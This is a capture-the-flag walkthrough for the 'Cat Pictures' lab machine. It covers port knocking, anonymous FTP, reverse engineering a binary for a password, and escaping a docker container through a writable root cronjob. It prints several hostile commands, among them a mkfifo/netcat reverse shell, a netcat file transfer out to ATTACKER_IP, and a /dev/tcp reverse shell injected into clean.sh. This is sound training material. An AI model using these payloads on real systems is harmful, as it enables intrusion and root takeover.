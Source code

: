 # Cat Pictures

##### Difficulty: [ Easy ]

**Tags:** `Linux`,  `nmap`,  `port knocking`,  `ftp`,  `reverse shell`,  `Binary Ninja`,  `docker`,  `cronjob`

---

##### Written: 30/11/2021

##### IP address: 10.10.21.0

---

### [ Flag 1 ]

As usual, let's run an **nmap** scan on the target to enumerate the services that it's running.

```
sudo nmap -sC -sV -vv -T4 10.10.21.0
```

From the results, we find out that there are three open ports. There are also two ports which seem to be hidden behind a firewall.

```
21/tcp   filtered ftp
22/tcp   open     ssh
2375/tcp filtered docker
4420/tcp open     nvm-express?
8080/tcp open http-proxy
```

Looks like we have access to a SSH server, a HTTP Web server and an unknown service running on port 4420. The FTP server is currently inaccessible by us. There is also a docker service running on port 2375.

<br>

Let's take a look at the HTTP Web server:

<img style="float: left;" src="screenshots/screenshot1.png">

We have a forum page that is built on **phpBB**. Before we do our happy-path enumeration, let's run a **Gobuster** directory scan to see if we can find any hidden directories.

```
gobuster dir -u http://10.10.21.0:8080/ -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt -x php,html,txt -t 50
```

I let the scan run for awhile, and it did find many different directories and files, but they were all ultimately of no use to us. 

<br>

Let's now check out the post on the webpage.

<img style="float: left;" src="screenshots/screenshot2.png">

We have a post titled 'Post cat pictures here!'. We also have an interesting message: 

`Knock knock! Magic numbers: 1111, 2222, 3333, 4444`

Hmmmm.... '**Knock knock**' and numbers that look like port numbers.... Could this be a **port knocking** sequence?

---

*Port Knocking is a method of externally opening ports on a firewall by generating a connection attempt on a set of prespecified closed ports. Once a correct sequence of connection attempts is received, the firewall rules are dynamically modified to allow the host which sent the connection attempts to connect over specific port(s).*

---

Perhaps if we were to visit these ports in sequence, we will be able to access the two services that are currently hidden behind the firewall! Let's try it out by visiting these ports in order:

```
telnet 10.10.21.0 1111
telnet 10.10.21.0 2222
telnet 10.10.21.0 3333
telnet 10.10.21.0 4444
```

Once we are done, we can run an nmap scan on the target again:

<img style="float: left;" src="screenshots/screenshot3.png">

Nice! Access to the FTP server has been unlocked. 

From the nmap scan, we also know that the FTP server has **anonymous login** enabled. This means that we can log into it without supplying a password. Let's login and grab the '**note.txt**' file inside.

<img style="float: left;" src="screenshots/screenshot4.png">

<br>

**Contents of note.txt:**

<img style="float: left;" src="screenshots/screenshot5.png">

Nice, we now have a password - **sardinethecat**

The unknown service running on port 4420 turned out to be an internal shell service. Let's log into it with our newfound password.

```
nc 10.10.21.0 4420
```

<img style="float: left;" src="screenshots/screenshot6.png">

And we're in! 

<br>

The first thing that I noticed was that the machine was very limited in terms of the commands that it could run. It couldn't run basic commands like `cd`, `whoami` and many others.  In fact, if we look at the **/bin** directory, we can see that there are only a handful of programs that are installed.

<img style="float: left;" src="screenshots/screenshot7.png">

With that in mind, let's take a look around.

<br>

<img style="float: left;" src="screenshots/screenshot8.png">

I found a binary called **runme** in the home directory of the **catlover** user. Let's try to run it.

<img style="float: left;" src="screenshots/screenshot9.png">

Welp, looks like we need to find a way to upgrade our shell. Let's try opening a reverse shell back into our machine.

I tried a few reverse shell payloads from **PayloadsAllTheThings** (https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/Methodology%20and%20Resources/Reverse%20Shell%20Cheatsheet.md), before finding one that worked:

``` 
rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc ATTACKER_IP PORT >/tmp/f
```

<img style="float: left;" src="screenshots/screenshot10.png">

And we're in yet again! Now we can run the `runme` binary:

<img style="float: left;" src="screenshots/screenshot11.png">

We need another password. Unfortunately, '**sardinethecat**' did not work.

My next thought was to download the binary onto my local machine so that I could analyze it. We can use `nc` (as it is installed on the target machine) and some basic piping to do so:

```
// on local machine
nc -lvnp 5555 > runme

// on target machine
nc ATTACKER_IP PORT < /home/catlover/runme
```

<br>

With the binary now on my local machine, I passed it to **Binary Ninja** (https://cloud.binary.ninja/) to reverse engineer the code.

<img style="float: left;" src="screenshots/screenshot12.png">

Once the reverse engineering is complete, I looked at the main() function. As we can see, the password is actually exposed in the code - **rebecca**

Let's go back into the target machine and run `runme` again.

<img style="float: left;" src="screenshots/screenshot13.png">

We now have a **private ssh key** in catlover's home directory:

<img style="float: left;" src="screenshots/screenshot14.png">

We can simply cat out the contents of the key, copy it over to a file on our local machine, and use it to log into ssh! *(make sure permissions of the key is either 400 or 600)*

<img style="float: left;" src="screenshots/screenshot15.png">

Great, we are now logged in as the **root** user!

<img style="float: left;" src="screenshots/screenshot16.png">

We can grab the first flag in the **/root** directory.

---

### [ Flag 2 ]

It seem like the flag that we found is not actually the final root flag. I tried using the `find` command to search for the other flag:

```
find / -iname '*flag*' 2>/dev/null
```

However, I was unable to find flag 2.

Remember that **docker** is running on port 2375? Perhaps we are currently in a docker container? We can verify this by looking for a **.dockerenv** file in the root ('/') directory.

<img style="float: left;" src="screenshots/screenshot17.png">

The file is indeed present, which confirms that we are in a docker container! Now we need to find a way to break out of the container. From past experiences, this is normally done through a script that is run as a **cronjob** by the root user outside of the container. Let's look around the machine to see if we can find such a script.

<br>

One place I looked was the **.bash_history** file:

<img style="float: left;" src="screenshots/screenshot18.png">

There's an interesting script called **clean.sh** located in **/opt/clean**. Let's check it out.

<img style="float: left;" src="screenshots/screenshot19.png">

Seems like the script is a cleaner script that removes all files in the **/tmp** directory. It would make sense for such a script to be run as a cronjob, so perhaps this is our ticket out of the docker container.

We also have write permissions to the script, so let's try to replace it with a reverse shell script:

```
echo '/bin/bash -l > /dev/tcp/ATTACKER_IP/PORT 0<&1 2>&1' > clean.sh
```

<img style="float: left;" src="screenshots/screenshot20.png">

After a few minutes, the reverse shell was opened and I was logged into the actual target machine as the root user.

<img style="float: left;" src="screenshots/screenshot21.png">

The final flag can be found in the **/root** directory.
